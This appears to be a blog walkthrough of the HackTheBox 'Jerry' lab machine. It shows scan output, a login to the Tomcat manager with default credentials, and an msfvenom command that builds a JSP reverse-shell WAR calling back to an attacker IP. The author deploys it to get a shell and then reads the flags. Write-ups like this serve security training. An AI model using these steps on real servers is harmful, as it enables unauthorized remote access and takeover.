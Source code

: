 ```yaml
---
layout: post
title:  "HackTheBox - Jerry"
date:   2021-08-03 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```
```
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/lpt1                 (Status: 200) [Size: 0]                     
/lpt2                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]                     
```
# FOOTHOLD

Visiting port 8080 on the web browser we see its the generic Apache Tomcat page so we go to /manager using the default creds tomcat:s3cret and we see that there is a place to deploy a war file ( we had done this in a previous box so it helped more:) )

```s
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > please.war
```
Then we upload this file and click on deploy.The page reloads and we see a file of the same name we gave ( no extension ).
Click on it and we get a shell back.

Now finding the flags was a bit frustrating. I looked almost everywhere even in Public but well, no flag.
So I tried to get into administrator directory ( didn't try it earlier cuz I assumed I had no access without privesc ).
So imagine how it felt to see I had all access to Administrator directory -_-
Anyways in \Administrator\Desktop i see a folder flags and inside it there's a file "2 for the price of 1.txt". Frankly thought it was a troll but nvm , ***IT ACTUALLY HAD BOTH THE FLAGS***

# PRIVILEGE ESCALATION

No Privesc. Already had admin access.